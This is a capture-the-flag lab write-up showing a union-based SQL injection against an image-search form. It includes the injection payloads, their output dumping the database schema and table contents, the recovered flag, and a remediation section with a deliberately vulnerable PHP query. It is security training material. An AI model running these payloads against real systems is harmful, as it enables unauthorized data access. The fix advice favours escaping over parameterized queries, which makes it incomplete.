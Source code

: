 # SQL injection searchimg

## Exploitation

On the homepage, on the bottom, there is some images and 2 buttons **ADD IMAGE** and **SEARCH IMAGE**. On the "search image" page (http://192.168.1.48/?page=searchimg), there is a form for searching images by the number

A search with the number `1` returns:

```
ID: 1 
Title: Nsa
Url : https://www.nsa.org/img.jpg
```

We can check if there is a SQL injection vulnerability by sending and addition. If we send `2-1` and the result is the id `1`, the addition was executed by the SQL request

```
ID: 2-1 
Title: Nsa
Url : https://www.nsa.org/img.jpg
```

We can use a SQL injection on this form

We need to know the numbers of fields. We will use `ORDER BY` to do this. If we send `1 ORDER BY X` and get an error (no result), the number X of fields is false, we can get the number by increasing it and test

We will using our script to launch injections

```
$ ./exploit.py "1 ORDER BY 2"
['1 ORDER BY 2 ', 'Nsa', 'https://www.nsa.org/img.jpg']
$ ./exploit.py "1 ORDER BY 3"
Injection failed
```

The number of fields is 2

The name of the database

```sql
-1 UNION SELECT 1, database()
```

```
$ ./exploit.py '-1 UNION SELECT 1, database()'
['-1 UNION SELECT 1, database() ', 'Member_images', '1']
```

The name of the database is `Member_images`

Now get the tables list

```sql
-1 UNION SELECT 1, TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database() 
```

```
$ ./exploit.py '-1 UNION SELECT 1, TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database()'
['-1 UNION SELECT 1, TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database() ', 'list_images', '1']
```

There is 1 table : `list_images`

Get the table colums

```sql
-1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database() 
```

```
$ ./exploit.py '-1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database() '
['-1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'id', '1']
['-1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'url', '1']
['-1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'title', '1']
['-1 UNION SELECT 1, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA=database()  ', 'comment', '1']
```

There is 4 columns:

- id
- url
- title
- comment

Print the columns value

```sql
-1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
```

```
$ ./exploit.py '-1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images'                          
['ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images ', 'Title: 1https://www.nsa.org/img.jpgNsaAn image about the NSA !', 'Url : 1']
['ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images ', 'Title: 2https://www.42.fr/42.png42 !There is a number..', 'Url : 1']
['ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images ', 'Title: 3https://www.google.fr/google.pngGoogleGoogle it !', 'Url : 1']
['ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images ', 'Title: 4https://www.obama.org/obama.jpgObamaYes we can !', 'Url : 1']
['ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images ', 'Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46', 'Url : 1']
['ID: -1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images ', 'Title: 6https://www.h4x0r3.0rg/tr0ll.pngtr00lBecause why not ?', 'Url : 1']
```

We can see some instructions to get the flag. Need to md5 decode, put in lowercase and sha256 the flag

After md5 decoding, the password is `albatroz`, sha256 it!

## How to fix it?

An SQL injection is a sanitization issue. It happens when a SQL request is used with a non sanitized data. For exemple:

```php
$db = new mysqli('localhost', 'root', 'passwd', 'base');
$result = $db->query('SELECT * FROM users WHERE user="'.$_GET['user'].'" AND pass= "'.$_GET['password'].'"');
```

In this exemple, the SQL request is build with the raw GET parameters value. We can inject some SQL in the parameters and change the original request to access/modify some data.

The way to fix it is to ALWAYS sanitize ALL the input data. Never trust the user

To help, in PHP there is some functions to do it, for exemple `mysqli_real_escape_string()`, or you can do it manually.

The better way is to use a framework to manage to Database access for you.

## References

- https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/les-injections-sql-classiques/affichage-denregistrements/
- https://blog.detectify.com/2016/03/08/what-is-a-sql-injection-and-how-do-you-fix-it/


